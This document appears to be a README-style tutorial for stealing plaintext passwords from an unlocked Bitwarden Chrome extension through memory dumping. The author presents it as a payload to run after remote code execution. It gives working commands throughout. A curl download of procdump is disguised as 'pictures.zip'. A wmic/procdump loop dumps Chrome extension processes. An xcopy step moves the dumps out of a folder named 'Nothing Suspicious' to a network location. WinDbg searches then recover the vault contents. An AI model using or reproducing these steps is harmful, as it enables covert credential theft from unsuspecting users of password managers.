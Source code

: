 # Retrieving and Analyzing Memory to View Bitwarden Passwords

## About This Tutorial
This tutorial will teach you how to get plaintext passwords from an unlocked Bitwarden Web Vault Chrome browser extension using memory analysis. The idea here is that this can be used as a payload for a RCE to get the  Bitwarden passwords of a computer in use. 

### What this is **NOT**:
 - This does NOT teach you how to retreive or recover a master password for a bitwarden vault
 - This is NOT an exploit for Bitwarden, Chrome, or the Kernel

### Prerequisites to this Tutorial:

 - Windbg is installed on the Host computer, how to install this software can be found [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/).
 - You have access to an elevated command prompt on the Target Computer, or can otherwise run commands with elevated priveleges
 - The Target computer has an internet connection 

## Step 1: Get a Debugger to Copy Chrome Memory
For this tutorial I'm going to use procdump, it's quite compact and doesn't require an installer, so it is perfect for this scenario. On the host computer, run the command:

    curl https://download.sysinternals.com/files/Procdump.zip -o pictures.zip

Here we just downloaded procdump as a file called "pictures.zip", an unsuspecting user might not immediately recognize this as a new file.

Next we will want to extract the .zip, we can use tar for this:

    tar -xf pictures.zip

## Step 2: Create a Memory Dump of Chrome Extensions
We are going to use wmic to get the process IDs of the running chrome extension processes, then use procdump to dump the memory to some files. We can do this in one command:

    for /f %i IN ('wmic.exe process where "CommandLine Like '%--extension-process%' and name Like 'chrome%'" get ProcessID') do (procdump.exe -accepteula -ma %i)

The output will be some .dmp files that you should copy to your Host computer. You can use xcopy, robocopy, or whatever command you'd like to copy the file to a network location. I'm going to give an example where we ran procdump in an empty folder called "Nothing Suspicious" in the ProgramData directory:

    xcopy "C:\ProgramData\Google Chrome" [Network Drive Path] /s /e


## Step 3: Analyze Memory Dump to Retrieve Plaintext Passwords

On the Host computer, open up Windbg and drag and drop the memory dump into the window. 

In the command line of windbg, enter the following command:

    s-a 0`00000000 L?5000000000000 'password".'

This searches for the ascii text that is correlated with the  from the first memory address, and the search will include all of the memory addresses in the dump, unless the file size exceeds ~5GB (but in that case you have a whole other issue).

Copy down one of the memory addresses outputted from the previous command. Then go to View > Memory to open up the memory viewer. In the address input box, paste the address you just copied. From here you can see your vault in plaintext.
